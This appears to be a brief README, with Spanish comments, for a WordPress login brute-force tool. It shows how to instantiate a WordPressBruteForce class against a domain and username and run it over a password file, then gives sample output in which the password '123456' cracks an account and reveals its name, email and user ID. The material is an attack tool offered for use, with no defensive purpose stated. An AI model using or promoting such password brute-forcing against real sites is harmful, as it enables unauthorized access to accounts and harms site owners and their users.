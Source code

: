 # WP-Login- Brute-Force


# Crea una instancia de la clase WordPressBruteForce
wp = WordPressBruteForce(wp_domain='example.com', wp_username='username')

# Realiza un ataque de fuerza bruta utilizando el archivo 'passwords.txt'
wp.brute_force_attack('password.txt')

RESULT

Contraseña para "usuario1" Incorrecta.
Autenticación -> "usuario2" | Password: "123456"
Nombre de usuario: usuario2
Nombre: Usuario
Apellido: 2
Correo electrónico: admin@example.com
ID de usuario: 1
